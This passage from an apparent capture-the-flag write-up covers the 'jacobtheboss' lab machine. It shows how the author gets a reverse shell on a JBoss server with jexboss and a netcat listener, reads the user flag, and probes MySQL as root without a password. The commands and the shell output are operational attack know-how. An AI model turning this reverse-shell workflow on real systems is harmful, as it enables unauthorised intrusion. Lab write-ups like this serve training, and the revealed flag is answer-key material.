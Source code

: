 ~~~
~~~

At this stage, you can start a listener in another window (`rlwrap nc -nlvp 4444`) and provide `jexboss` with your local IP and port (the `RHOST` and `RPORT` are a bit confusing as it shoudl actually be `LHOST` and `LPORT`).

~~~
 * Please enter the IP address and tcp PORT of your listening server for try to get a REVERSE SHELL.
   OBS: You can also use the --cmd "command" to send specific commands to run on the server.
   IP Address (RHOST): 10.8.50.72
   Port (RPORT): 4444

 * The exploit code was successfully sent. Check if you received the reverse shell
   connection on your server or if your command was executed. 
   Type [ENTER] to continue...
~~~

The listener receives a connection from the target and spawns a reverse shell:

~~~
kali@kali:/data/vpn$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.156.161] 43552
bash: no job control in this shell
[jacob@jacobtheboss /]$ id
id
uid=1001(jacob) gid=1001(jacob) groups=1001(jacob) context=system_u:system_r:initrc_t:s0
~~~

## User flag

We are connected as `jacob` and we can read the user flag:

~~~
[jacob@jacobtheboss /]$ cd
cd
[jacob@jacobtheboss ~]$ cat user.txt
cat user.txt
f4d491f280de360cc49e26ca1587cbcc
~~~

User flag: `f4d491f280de360cc49e26ca1587cbcc`


# root.txt

## Rabbit hole (database)

Analyzing the source code of the DotClear installation, I was able to access the configuration file and see that the connection to the MySQL database as `root` is granted without password. I dumped the `dc_user` table and extracted the hash but was unsuccessful in cracking it with John.

## Root files with SUID bit set

